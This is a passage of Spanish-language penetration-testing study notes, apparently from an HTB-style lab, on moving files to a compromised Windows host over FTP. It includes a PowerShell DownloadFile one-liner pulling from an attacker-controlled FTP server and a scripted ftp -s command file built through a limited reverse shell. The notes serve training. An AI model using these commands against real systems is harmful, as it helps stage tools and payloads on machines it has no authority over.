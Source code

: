 Por defecto permite **acceso anónimo** si no se define usuario/contraseña.

### 1. Transferir archivos usando PowerShell

```
(New-Object Net.WebClient).DownloadFile('ftp://<IP-Atacante>/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- Descarga el archivo directamente desde el servidor FTP al destino en Windows.

### 2. Transferir archivos usando un archivo de comandos FTP
Cuando tengo **una shell limitada o no interactiva** en Windows (por ejemplo, un shell remoto que no permite teclear comandos en tiempo real), no puedes usar FTP de manera normal escribiendo comandos uno a uno.

La solución es **preparar un archivo con los comandos FTP** y decirle al cliente FTP que los ejecute automáticamente.
(Todo esto **se ejecuta desde la máquina víctima**, normalmente cuando ya tienes **una reverse shell en Windows**):
1. Crear archivo de comandos `ftpcommand.txt`:

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
```

2. Ejecutar FTP usando el archivo de comandos:
```
ftp -v -n -s:ftpcommand.txt  
```
- `-v` → modo verbose, muestra lo que pasa.
- `-n` → no intenta iniciar sesión automáticamente.
- `-s:ftpcommand.txt` → ejecuta los comandos que están en el archivo.
Esto hace que **FTP lea todos los comandos del archivo y ejecute la conexión y la descarga automáticamente**, sin que tengas que escribir nada manualmente.

3. Verificar contenido del archivo descargado:
```
more file.txt
```
Lo que pasa con la reverse shell
- Muchas reverse shells **no soportan interacción completa** con comandos que requieren "entrada manual" o que usan redirecciones (`>` o `>>`) correctamente.
- Por ejemplo, `echo open 192.168.49.128 > ftpcommand.txt` intenta crear un archivo en disco, pero si la reverse shell es limitada:
    - No puede interpretar correctamente `>` y `>>`.
    - No tiene acceso a la ruta donde se intenta crear el archivo.
    - No muestra el prompt real de cmd, así que los comandos que dependen del prompt fallan.-
